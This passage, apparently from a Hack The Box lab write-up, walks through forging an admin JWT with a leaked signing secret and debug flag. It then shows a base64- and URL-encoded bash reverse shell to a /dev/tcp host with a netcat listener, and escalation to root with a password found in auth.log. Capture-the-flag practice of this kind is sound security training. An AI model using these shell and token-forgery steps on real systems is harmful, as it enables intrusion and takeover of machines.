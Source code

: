 ```
class Settings(BaseSettings):
    API_V1_STR: str = \"/api/v1\"
    JWT_SECRET: str = \"SuperSecretSigningKey-HTB\"
    ALGORITHM: str = \"HS256\"
```
- For easiest use on the swagger let's connect with the admin creds we created we just have to click on the Authorize green lock on the top right and enter our credentials
- Ok now let's inspect the token in jwt.io  
![image](https://user-images.githubusercontent.com/96747355/168400622-d6b5ab1d-a822-4f51-b1ae-0aa2dc2d3f17.png)  
- Let's try to add our secret now that we have it we need to enter it here:  
![image](https://user-images.githubusercontent.com/96747355/168400796-344237a4-9446-4870-b402-0129ef4d62d9.png)  
- And according to the error message we have we also need to add a debug flag in it so our payload data looks like this  
![image](https://user-images.githubusercontent.com/96747355/168401019-d8897ff1-0180-405c-bc22-cbfbb9c59a5f.png)  
- Now we just need to copy the new token and we should be able to execute commands.
- Let's try our ls again. And it works!  
![image](https://user-images.githubusercontent.com/96747355/168401140-a62a8608-2bae-453e-9c06-991a023b37ef.png)  
- Let's try to get a shell `bash -i >& /dev/tcp/10.10.14.11/4444 0>&1`. 
- We launch a listener `nc -lvp 4444`
- We have to be careful with the & symbol in order for it to not be interpreted as url char. so first lets encode this in base64 we can do it with burp  
![image](https://user-images.githubusercontent.com/96747355/168448294-d83f5a86-f40e-4340-9e3c-a7dde3b74a49.png)  
- Now we need to add an echo -n in front of it pipe it to a base64 decode and pipe it to bash so that it gets executed like this  
![image](https://user-images.githubusercontent.com/96747355/168448348-1a2ceaab-2418-491b-b8fb-f0d23c19695a.png)  
- And finally we fully urlencode all of this with burp again we have ti select "URL-encode all characters"  
![image](https://user-images.githubusercontent.com/96747355/168448399-79c814d0-41f8-4558-9d8b-4c84dfc4456a.png)  
- Our payload will look like this  
![image](https://user-images.githubusercontent.com/96747355/168448426-e5f57283-24d3-46c7-afc0-f6ee18cad173.png)  
- We get a shell!  
![image](https://user-images.githubusercontent.com/96747355/168448481-9b9136f4-fe34-40fc-9956-60de35ad0cf5.png)  
- in the folder we arrive (`/home/htb/uhc`) we have an auth.log file that is interesting because of something that looks like a password:  
![image](https://user-images.githubusercontent.com/96747355/168448522-18989ac7-5f9a-4ec1-b067-42d6ba29c5a4.png)  
- let's try to see if we can use it to get root
- We need to stabilize our shell first we can use [this doc](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to do so. so we just need to type `python -c 'import pty; pty.spawn("/bin/bash")'`
- And now we just need to try to login as root using `su root` and it works!!  
![image](https://user-images.githubusercontent.com/96747355/168448621-b3e76bac-8793-41f7-a4e0-134406f12d1a.png)  
- We can finally grab the root flag!! :D :D :D `cat /root/root.txt`
